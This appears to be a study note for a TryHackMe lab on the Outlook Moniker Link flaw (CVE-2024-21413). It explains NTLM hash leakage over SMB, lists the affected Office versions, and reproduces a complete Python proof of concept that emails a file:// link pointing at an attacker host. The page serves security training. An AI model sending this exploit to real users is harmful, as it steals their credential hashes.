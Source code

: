 ```yaml
---
description: https://tryhackme.com/r/room/monikerlink
---
```


# Moniker Link (CVE-2024-21413)

## What does it do:

An unwilling victim clicks on a link in Outlook (versions affected by this shown bellow) \
This simple act will send the attacker the netNTLMv2 hash of the victim's&#x20;

## How does it work:

The link contains the address of the attacker, by clicking on it, you're initiating SMB (Server Message Block) protocol, potentially triggering an **NTLMv2 authentication request**. which is used for file sharing by windows, Linux etc. In simple terms, Outlook thinks you want to access files someone sent you and does what it's supposed to do.

The vulnerability is known to affect the following Office releases:

| Release                                      | Version                                    |
| -------------------------------------------- | ------------------------------------------ |
| Microsoft Office LTSC 2021                   | <p>affected from 19.0.0<br></p>            |
| <p>Microsoft 365 Apps for Enterprise<br></p> | <p>affected from 16.0.1<br></p>            |
| <p>Microsoft Office 2019<br></p>             | <p>affected from 16.0.1<br></p>            |
| <p>Microsoft Office 2016<br></p>             | affected from 16.0.0 before 16.0.5435.1001 |



{% embed url="https://github.com/CMNatic/CVE-2024-21413/blob/main/exploit.py" %}

```
'''
Author: CMNatic | https://github.com/cmnatic
Version: 1.1 | 13/03/2024
Only run this on systems that you own or are explicitly authorised to test (in writing). Unauthorised scanning, testing or exploitation is illegal.
'''

import smtplib
from email.mime.text import MIMEText
from email.mime.multipart import MIMEMultipart
from email.utils import formataddr

sender_email = 'attacker@monikerlink.thm' # Replace with your sender email address
receiver_email = 'victim@monikerlink.thm' # Replace with the recipient email address
password = input("Enter your attacker email password: ")
html_content = """\
<!DOCTYPE html>
<html lang="en">
    <p><a href="file://Change_this_to_ATTACKER_IP/test!exploit">Click me</a></p>

    </body>
</html>"""

message = MIMEMultipart()
message['Subject'] = "CVE-2024-21413"
message["From"] = formataddr(('CMNatic', sender_email))
message["To"] = receiver_email

# Convert the HTML string into bytes and attach it to the message object
msgHtml = MIMEText(html_content,'html')
message.attach(msgHtml)

server = smtplib.SMTP('Change_this_to_MAILSVERIP', 25)
server.ehlo()
try:
    server.login(sender_email, password)
except Exception as err:
    print(err)
    exit(-1)

try:
    server.sendmail(sender_email, [receiver_email], message.as_string())
    print("\nEmail delivered")
except Exception as error:
    print(error)
finally:
    server.quit()
```

